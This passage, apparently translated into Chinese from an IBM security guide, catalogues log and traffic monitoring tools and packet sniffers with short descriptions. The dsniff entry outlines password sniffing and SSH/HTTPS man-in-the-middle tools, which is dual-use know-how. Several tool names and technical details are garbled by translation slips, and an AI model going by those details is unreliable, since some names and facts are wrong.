多路由器流量图（MRTG）是一种用于监控网络链路流量负载的工具。MRTG 生成包含 PNG 图像的 HTML 页面，提供这些流量的实时表示。MRTG 可以通过 RRDtool 图表以及时间序列数据的存储/检索进行扩展。这两个工具对于监控你的网络流量容量非常有用——这通常是攻击的指标。

# IBM

Swatch (http://www.stanford.edu/~atkins/swatch/) Swatch（简单监控守护进程）是一个用于 UNIX 系统日志的程序，最初编写用于主动监控通过 syslog syslog 实用写入日志文件的消息。Swatch 的设计是为了防止系统管理员被海量数据淹没。它监控日志文件并过滤掉不需要的数据，并根据日志中的模式采取一项或多个用户操作。Swatch 可以监控正在追加到日志文件中的信息，并在严重系统问题发生时立即通知管理员。

Timbersee (http://www.fastcoder.net/thumper/sysadmin/timbersee/) Timbersee 是一个与 Swatch 程序非常的程序。它被用于监控日志文件中的重要消息，但不同之处在于它可以同时监控多个日志文件，且不会派生额外的进程。与其他工具的另一个区别是，配置文件是一个 XML 文件，并在程序运行时对其进行验证。

Logsurf (http://www.cert.de/en/logsurf/)
“logsurfer”程序设计用于实时监控你系统上的文本日志。收集到的海量日志信息（如所有由 syslog-daemon 或 ftp、Web 服务器等处理的信息）使得通过手动检查日志以发现任何异常活动变得非常困难。拥有一个代表你执行监控的程序是很有用的——特别是在大型服务器环境中。如果你不想使用在特定时间（每晚、每周等）检查日志的脚本，那么你可能对 swatch 或 logsurfer 这样的程序感兴趣。

TCP Wrappers (http://ftp.porcupine.org/pub/security/index.html)
Wiestene 的网络记录器，也称为 TCPD 或 LOG_TCP。这些程序记录 TCP、UDP 和 ICMP 流量，并检测域名伪造、登录等请求。安全选项可以将告报发送到 syslog、独立的告报文件，甚至是 Windows 计算机。

IPLog (http://ojnk.sourceforge.net/)
iplog 是一个用于 TCP/IP 流量的记录工具，能够记录 TCP、UDP 和 ICMP。

IPTraf (http://cebu.com/riker/iptraf/)
iptraf 是一个基于 ncurses 的 IP 器，显示网络统计信息，包括 TCP、校验和错误。

Ntop (http://www.ntop.org)
top 是一个 Unix/Linux 工具，显示网络使用情况，其功能类似于流行的“top” 命令。

Snort (http://www.snort.org)
灵活的包嗅探器/记录器，Snort 是一个基于 libcap 的包嗅探器，可以作为轻量级入侵检测系统使用。

# IBM

Snort 具有基于规则的记录功能，并可以执行内容搜索以检测缓冲区溢出、隐蔽扫描、SMB 攻击等多种攻击。Snort 具有实时告警能力，可以通过 Samba 发送告报。

## 嗅探器

Sniffit (http://reptile.ac.be/-coder/sniffit/sniffit.html) 包嗅探器和监控工具，sniffit 是用于 TCP/UDP/ICMP 包的嗅探器。它能够提供这些包的详细技术信息（SEC、ACK、TTL、Window 等）。

Tcpdump (tcp.org) 强大的网络监控和数据采集工具。Tcpdump 程序允许导出网络接口上的流量。可以使用它跟踪网络问题、检测 ping 攻击或监控网络活动。

Dsniff (http://naughty.monkey.org/-dugsong/dsniff/) dsniff 是网络审计和渗透测试工具集。包含了破解网络交换机“保护”的高级技术。dsniff、 sniffers、filemap、msnarf、msnarl 和 webspy 被动监控感兴趣的数据（密码、电子邮件、文件等），arspoof、dnspoof 和 macof 可以拦截攻击者通常无法获取的网络流量（例如二层重定向 ssh）。sshmitt 和 webmitt 通过利用即时 PKI 的弱点对重定向的 SSH 和 HTTPS 会话实施中间人攻击。

Ethereal (http://www.ethereal.com/) Ethereal 是适用于 Unix/Linux 和 Windows 的免费网络分析仪。它允许你检查实时网络或磁盘上的捕捉文件。你可以交互式浏览捕捉数据，查看每个包的摘要和细节。Ethereal 具有许多强大功能，包括丰富的显示过滤语言和查看 TCP 会话重建流的能力。

Ngrep (http://www.packetfactory.net/Projects/ngrep/) 用于网络流量的 grep 类工具。ngrep 力求提供大多数 grep 的常用功能，并将其应用于网络层。ngrep 是一个 pcap 工具，允许你指定扩展正则表达式来匹配数据包负载。它目前识别以太网、PPP、SLIP 和空接口上的 TCP、UDP 和 ICMP，并以与常见的包嗅探工具（如 tcpdump 和 snoop）相同的方式理解 bpf 过滤器逻辑。

